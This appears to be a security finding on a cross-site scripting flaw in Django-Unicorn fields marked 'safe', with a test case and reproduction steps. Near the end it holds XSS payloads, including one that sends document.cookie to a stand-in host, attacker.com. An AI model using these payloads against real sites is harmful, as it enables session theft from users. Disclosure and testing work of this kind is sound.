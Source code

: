 ```python
```

This code explicitly marks the field content as safe using Django's `mark_safe()` function, which instructs Django's template engine not to escape the content. If an attacker can control this content, they can inject malicious JavaScript.

The XSS vulnerability is clearly demonstrated in `tests/views/test_process_component_request.py`:
```python
def test_safe_html_entities_not_encoded(client):
    data = {"hello": "test"}
    action_queue = [
        {
            "payload": {"name": "hello", "value": "<b>test1</b>"},
            "type": "syncInput",
        }
    ]
    response = post_and_get_response(
        client,
        url="/message/tests.views.test_process_component_request.FakeComponentSafe",
        data=data,
        action_queue=action_queue,
    )

    assert not response["errors"]
    assert response["data"].get("hello") == "<b>test1</b>"
    assert "<b>test1</b>" in response["dom"]
```

This test shows that when a field is marked as safe, HTML tags aren't encoded and are rendered as-is in the DOM.

**Security test case:**
1. Create a Django-Unicorn component with a field marked as "safe":
```python
class VulnerableComponent(UnicornView):
    content = "<p>Initial content</p>"

    class Meta:
        safe = ("content",)
```

2. Create a template that uses this component:
```html
<div>
    <input unicorn:model="content" type="text" id="content" />
    <div>{{ content }}</div>
</div>
```

3. As an attacker, access the page with this component
4. Enter malicious payload into the input: `<img src="x" onerror="alert(document.cookie)">`
5. Observe that the JavaScript executes and displays the cookie
6. Demonstrate that with a properly crafted payload, an attacker could exfiltrate sensitive data by using a payload like: `<img src="x" onerror="fetch('https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie))">`
